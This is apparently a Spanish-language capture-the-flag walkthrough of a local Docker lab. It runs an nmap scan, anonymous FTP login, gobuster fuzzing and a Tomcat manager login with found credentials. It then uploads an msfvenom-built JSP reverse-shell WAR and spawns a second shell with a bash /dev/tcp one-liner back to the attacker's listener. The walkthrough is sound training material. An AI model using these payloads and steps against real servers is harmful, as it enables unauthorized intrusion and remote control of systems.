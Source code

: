 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pn.tar
```

![Pasted image 20250203124154](https://github.com/user-attachments/assets/5c2ff673-c307-4b2b-999f-7304362f0199)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250203124223](https://github.com/user-attachments/assets/da475089-bcdd-438e-913c-488a8a3bb0a5)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250203124312](https://github.com/user-attachments/assets/ee8f0666-58ff-4578-80c7-036557fcf5c2)

```Bash
anonymous
```

![Pasted image 20250203124328](https://github.com/user-attachments/assets/92527238-17ca-494b-951c-ef3c8af0a9d5)

```Bash
'blank'
```

![Pasted image 20250203124340](https://github.com/user-attachments/assets/a4100623-3c73-4303-a895-fb0a204b11a1)

```Bash
ls
```

![Pasted image 20250203124409](https://github.com/user-attachments/assets/e16a42b2-9c7c-4258-8c1e-3f6e9a751557)

```Bash
get tomcat.txt
```

![Pasted image 20250203124434](https://github.com/user-attachments/assets/7cc3f2ad-beca-4453-89b6-5bebb273f8e4)

```Bash
cat tomcat.txt
```

![Pasted image 20250203124645](https://github.com/user-attachments/assets/07ac7123-592e-4c5b-a422-e27214918a87)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250204152455](https://github.com/user-attachments/assets/13ed0ee4-214a-48fc-9753-a3bf67bf1571)

Nos metemos en la web:

![Pasted image 20250203124745](https://github.com/user-attachments/assets/7c9ffb67-e195-4fa5-baf5-f939b945787f)

![[Pasted image 20250203125031.png]]


![[Pasted image 20250203124932.png]]



tomcat: s3cr3t

![[Pasted image 20250203125055.png]]

![[Pasted image 20250204144739.png]]

Creamos payload para subir:

```Bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o shell.war
```

![[Pasted image 20250204151401.png]]

Lo subimos:

![[Pasted image 20250204150907.png]]

![[Pasted image 20250204150933.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250204151015.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250204152406.png]]

Pinchamos en la shell subida:

![[Pasted image 20250204152912.png]]

Miramos en la shell:

![[Pasted image 20250204152129.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250204152103.png]]

Miramos la otra shell:

![[Pasted image 20250204152256.png]]

```Bash
whoami
```

![[Pasted image 20250204152315.png]]
